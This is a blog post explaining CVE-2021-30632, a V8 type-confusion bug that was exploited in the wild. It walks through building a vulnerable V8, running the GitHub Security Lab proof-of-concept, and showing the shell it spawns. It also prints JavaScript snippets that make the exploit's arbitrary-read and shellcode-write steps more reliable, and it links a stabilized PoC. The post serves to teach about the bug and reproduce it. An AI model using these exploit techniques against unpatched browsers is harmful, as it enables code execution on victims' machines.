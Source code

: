 # CVE-2021-30632 Explained

Google Chrome's JavaScript engine, V8, powers billions of browsers and applications. In 2021, a critical bug in V8's Just-In-Time (JIT) compiler, tracked as CVE-2021-30632, was discovered and exploited in the wild. This vulnerability is a textbook example of how subtle assumptions in JIT optimizations can open the door to powerful exploits.

## What Went Wrong?

At its core, this bug was caused by incorrect assumptions about object layouts (also known as maps in V8):

* During JIT optimization, V8 assumed an object’s layout would remain stable.
* In reality, the layout could change, violating that assumption.
* This mismatch led to a type confusion, where V8 treated an object as the wrong type.
* With type confusion, an attacker could achieve arbitrary memory read and write -- the foundation for powerful exploits.


For an in-depth analysis, I highly recommend Man Yue Mo's excellent write-up on the [GitHub Security Lab blog](https://github.blog/security/vulnerability-research/chrome-in-the-wild-bug-analysis-cve-2021-30632/). The original proof-of-concept (PoC) exploit is also [available on GitHub](https://github.com/github/securitylab/tree/main/SecurityExploits/Chrome/v8/CVE-2021-30632).

To preserve access, I've also archived the GitHub Security Lab article as a [PDF backup](./cve-2021-30632-analysis.pdf).

In this post, I'll walk through the practical side: building a vulnerable version of V8 and reproducing the exploit PoC

# Building a Vulnerable V8

Because the bug was patched in 2021, we need to compile an old, vulnerable version. Following the PoC instructions, we'll check out v8 version `9.3.345.16` (commit `632e6e7`).

I performed the build on Ubuntu 22.04 64bit. One challenge: Ubuntu 22.04 uses python3.10 as the default python3, which is incompatible with v8's old build scripts. To solve this, we will0 install0 python3.9 and explicitly tell v8 to use it.

## 1. Install python3.9 on Ubuntu 22.04

```bash
# Update package list and install prerequisites
sudo apt update
sudo apt install software-properties-common -y

# Add the Deadsnakes PPA (maintains older Python versions)
sudo add-apt-repository ppa:deadsnakes/ppa
sudo apt update

# Install Python 3.9
sudo apt install python3.9 python3.9-venv python3.9-distutils -y

# Verify
python3.9 --version
```

> ⚠️ **Note**: Don't replace Ubuntu's default python3 (which is python3.10). Some system tools expect Python 3.10. Instead, we'll just point V8's build system to /usr/bin/python3.9.

## 2. Build v8

```bash
# Install prerequisites
sudo apt-get update
sudo apt-get install -y git curl python3 build-essential pkg-config ninja-build clang lld

# Get depot_tools and put it on PATH
git clone https://chromium.googlesource.com/chromium/tools/depot_tools.git
export PATH="$PWD/depot_tools:$PATH"
echo 'export PATH="$PATH:'"$PWD"'/depot_tools"' >> ~/.bashrc
source ~/.bashrc  # or `source ~/.zshrc`

# Fetch v8
fetch v8
cd v8

# Check out the exact version
git fetch origin --tags --prune
git checkout 9.3.345.16
gclient sync -D --reset --with_branch_heads --with_tags

# Generate build files telling GN which Python to run actions with
gn gen out/x64.release --script-executable=/usr/bin/python3.9

# Build
tools/dev/gm.py x64.release

# Smoke test
out/x64.release/d8 -e "print(1+2)"
```

If everything worked, you should see `3` printed to your terminal.

# Test the PoC

Next, grab the PoC from [Github](https://github.com/github/securitylab/blob/main/SecurityExploits/Chrome/v8/CVE-2021-30632/poc.js), or use our local copy [poc-by-mym.js](./poc-by-mym.js)

```bash
out/x64.release/d8 ./poc-by-mym.js
```

On a vulnerable build, the exploit succeeds and spawns a shell:

```bash
test-v8/v8/out/x64.release$ ./d8 poc-by-mym.js
instance: 81d42dd
elements: 804aba1
rwx page address: 3437bb5bd000
intArray addr: 8106d79
intBackingStore: 5d59854e6ef0
$ # <--- this is the new shell created by the exploit.
```

From here, the attacker effectively gains arbitrary code execution through the compromised V8 instance.

# Make the PoC More Stable

The PoC provided by GibHub Security Lab runs out-of-the-box and works as intended if left unmodified. If you just want to try it as-is, it's already perfect.

However, there is a catch: as [noted by Man Yue Mo](https://github.com/github/securitylab/tree/main/SecurityExploits/Chrome/v8/CVE-2021-30632), the exploit is extremely fragile. Even minor changes -- such as adding or removing a comment -- can cause the attack to fail. The original author suggested a manual workaround: swap the two addresses read from the array when things go wrong. This approach works, but it is a bit tedious.

Since I did not want to manually adjust addresses every time, I added a small trick to make the PoC automatically handle this situation.

Here is the relevant snippet:

```js
var elementsAddr = ftoi32(addrs[1])[0];
if (elementsAddr == 0x800222d) {
  print("bad address, but it is OK");
  isBad = true;
}

function arbRead(addr) {
  if (isBad) {
    [addr1, elements] = ftoi32(addrs[1]);
    oobWrite(i32tof(addr1,addr));
  } else {
    [elements, addr1] = ftoi32(addrs[1]);
    oobWrite(i32tof(addr,addr1));
  }
  return writeArr[0];
}

function writeShellCode(rwxAddr, shellArr) {
  ...
  if (isBad) {
    [addr1, elements] = ftoi32(addrs[1]);
    oobWrite(i32tof(addr1, intArrAddr + 0x20));
  } else {
    [elements, addr1] = ftoi32(addrs[1]);
    oobWrite(i32tof(intArrAddr + 0x20, addr1));
  }
  ...
}  
```

What this does is straightforward:

* The PoC checks whether the extracted address looks "bad".
* If so, it automatically swaps the two elements.
* This adjustment is applied consistently in both the arbitrary read and shellcode write functions.

The result is a much more stable exploit. While this does not fix the fragility of the original PoC, it serves as a convenient workaround. Now, I can modify or extend the PoC (even with comments!) without worrying about it breaking.

👉 The complete stabilized PoC is available here: [poc-by-mym-stable.js](./poc-by-mym-stable.js).